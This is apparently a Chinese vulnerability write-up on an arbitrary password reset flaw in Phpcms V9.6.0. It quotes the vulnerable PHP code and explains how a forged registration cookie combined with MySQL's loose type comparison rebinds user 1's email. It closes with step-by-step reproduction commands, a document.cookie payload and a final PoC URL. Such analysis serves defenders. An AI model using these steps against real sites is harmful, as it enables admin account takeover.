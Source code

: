 Phpcms V9.6.0 任意密码重置漏洞
==============================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms V9.6.0

三、复现过程
------------

### 漏洞分析

`/phpcms/modules/member/index.php` 第267到312行

    public function send_newmail() {
        $_username = param::get_cookie('_regusername');
        $_userid = param::get_cookie('_reguserid');
        $_ssouid = param::get_cookie('_reguseruid');
        $newemail = $_GET['newemail'];
     
        if($newemail==''){//邮箱为空，直接返回错误
            return '2';
        }
        $this->_init_phpsso();
        $status = $this->client->ps_checkemail($newemail);
        if($status=='-5'){//邮箱被占用
            exit('-1');
        }
        if ($status==-1) {
            $status = $this->client->ps_get_member_info($newemail, 3);
            if($status) {
                $status = unserialize($status); //接口返回序列化，进行判断
                if (!isset($status['uid']) || $status['uid'] != intval($_ssouid)) {
                    exit('-1');
                }
            } else {
                exit('-1');
            }
        }
        //验证邮箱格式
        pc_base::load_sys_func('mail');
        $code = sys_auth($_userid.'|'.microtime(true), 'ENCODE', get_auth_key('email'));
        $url = APP_PATH."index.php?m=member&c=index&a=register&code=$code&verify=1";
     
        //读取配置获取验证信息
        $member_setting = getcache('member_setting');
        $message = $member_setting['registerverifymessage'];
        $message = str_replace(array('{click}','{url}','{username}','{email}','{password}'), array('<a href="'.$url.'">'.L('please_click').'</a>',$url,$_username,$newemail,$password), $message);
     
        if(sendmail($newemail, L('reg_verify_email'), $message)){
            //更新新的邮箱，用来验证
            $this->db->update(array('email'=>$newemail), array('userid'=>$_userid));
            $this->client->ps_member_edit($_username, $newemail, '', '', $_ssouid);
            $return = '1';
        }else{
            $return = '2';
        }
        echo $return;
    }

　　`$_userid`用 `param::get_cookie('_reguserid')` 来获取

跟进去：`/phpv9.6.0/phpcms/libs/classes/param.class.php` 第106-117行。

    public static function get_cookie($var, $default = '') {
        $var = pc_base::load_config('system','cookie_pre').$var;
        $value = isset($_COOKIE[$var]) ? sys_auth($_COOKIE[$var], 'DECODE') : $default;
        if(in_array($var,array('_userid','userid','siteid','_groupid','_roleid'))) {
            $value = intval($value);
        } elseif(in_array($var,array('_username','username','_nickname','admin_username','sys_lang'))) { //  site_model auth
            $value = safe_replace($value);
        }
        return $value;
    }

　　这时候的\$var的值是\_reguserid，
然后获取前缀。`pc_base::load_config('system','cookie_pre')`

　　\$var的值就变成了gggCB\_\_reguserid，然后进到`sys_auth($_COOKIE[$var], 'DECODE')`,由于这个值我们是可控的，那找个可控的地方加密一下，也就是注册的时候，把名字注册成1xxxx(为什么是这样的后面会说)
，然后他会对username进行加密，我们只要注册一个号，然后复制出里面username的值就行。

接着有个if判断，这就是我说文章分析错的地方，这里的\$var的值是gggCB\_\_reguserid，根本不在后面的这个数组里面，所以进入不到\$value
= intval(\$value);

所以不能intval出数字来，所以文章分析错了，但是还是能密码重置。接着看，返回了\$value的值，也就是1xxxx。

省略中间的运行：来到304行，看这句

`$this->db->update(array('email'=>$newemail), array('userid'=>$_userid));`

进行update操作，\$newemail的值是我们给的，\$\_userid是 1xxxx 。

跟进去形成sql修改。语句是这样的。

    UPDATE `phpcms`.`v9_member` SET `email`='aa223d@qq.com' WHERE `userid` = '1xxxx'

然后在mysql中，where 1 = \'1sFdsfdsf\'
是相等的，因为后面的字符串转为了数组1

![1.png](resource/PhpcmsV9.6.0任意密码重置漏洞/media/rId25.png)

所以他的语句就变成了

    UPDATE `phpcms`.`v9_member` SET `email`='aa223d@qq.com' WHERE `userid` = '1'

然后重置掉了用户userid为1 的用户

2.png

### 漏洞复现

大概的攻击流程是这样的。

注册一个1xxx
，然后获取cookie中的username的值，然后切换一个浏览器，再次打开网页，在f12中，设置cookie的值，注意\_\_reguserid前面的gggCB也要和username的值一样

`document.cookie='gggCB__reguserid=2f22C0FxoGesxWq73GqUXpuJBDAAEO_KZL5MuEDDeaEj9w'`

然后访问
`/index.php?m=member&c=index&a=send_newmail&siteid=1&newemail=q123456@qq.com`

看到页面返回1就代表成功了，然后就去

`/index.php?m=member&c=index&a=public_forget_password&siteid=1`

输入你的邮箱 重置掉userid=1的密码。

最终poc为

    https://www.0-sec.org/index.php?m=member&c=index&a=send_newmail&siteid=1&newemail=aa222a@qq.com

参考链接
--------

> https://www.cnblogs.com/yangxiaodi/p/6890298.html
